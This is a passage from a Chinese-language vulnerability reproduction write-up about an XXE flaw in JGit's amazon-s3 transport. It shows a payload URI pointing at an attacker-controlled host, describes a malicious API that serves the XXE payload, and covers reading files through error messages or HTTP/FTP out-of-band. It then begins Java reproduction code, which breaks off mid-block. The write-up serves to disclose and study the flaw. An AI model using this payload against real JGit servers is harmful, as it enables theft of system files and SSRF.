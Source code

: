 http://src123456.xxoo.pro?.s3.amazonaws.com/?prefix=/refs/  
- payload无需修改，最终payload：  
amazon-s3://user:pass@src123456.xxoo.pro?/  
####   
#### 4.7 处理第二个响应包  
- 两个请求的URL路径都是一样的，只是参数不一样，所以我们需要修改我们的API接口，使其可以同时兼容这两个请求。  
- 当我们请求的参数中包含prefix，我们就返回XXE的payload，其他情况就返回#test。  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC7b185MKjIxwPKRWBf1n2Slu4HciakTdtalvaNJ6JZZzEYEEFE50cbmUQ/640?wx_fmt=png&from=appmsg "")  
  
### 效果展示  
  
通过报错的方式读取到了指定文件中的内容。  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_png/IHHY4xBiax3EdN5hFRdmia42uibL7nwSTC71gmX7vXEaOpGxzOVicMWjRg5EZUSjml73j6ghldj1euicRdQsvrkCiapg/640?wx_fmt=png&from=appmsg "")  
### 小结  
- 该漏洞被利用的前提：被攻击服务器要可以访问到攻击者部署的恶意web  
- 漏洞危害  
- 如果报错信息会在接口中返回，就可以实现读取系统文件内容的效果。  
- 如果系统不返回报错信息，就只能通过HTTP/FTP外带读取有限的数据。  
- 可以实现SSRF，但感觉作用不大，而且一般JGit在内网用的比较多。  
## 漏洞复现完整代码  
### 导入依赖  
  
```
<dependency>
    <groupId>org.eclipse.jgit</groupId>
    <artifactId>org.eclipse.jgit</artifactId>
    <version>5.12.0.202106070339-r</version>
</dependency>
```  
  
### Payload  
```
package com.nixsolutions.xxe_demo;

import org.eclipse.jgit.api.Git;
import org.eclipse.jgit.api.errors.GitAPIException;
import org.eclipse.jgit.transport.CredentialsProvider;
import org.eclipse.jgit.transport.UsernamePasswordCredentialsProvider;
import org.junit.Test;

import java.io.File;

public class JgitTest {

    public void clone(File outputDir, String branch, String uri, String user, String pwd) throws GitAPIException {

        CredentialsProvider credentials = new UsernamePasswordCredentialsProvider(user, pwd == null ? "" : pwd);

        try {
            Git.cloneRepository()
                    .setURI(uri)
                    .setBare(false)
                    .setBranch(branch)
                    .setDirectory(outputDir)
                    .setCredentialsProvider(credentials)
                    .call();
        } catch (Exception e) {
            e.printStackTrace();
```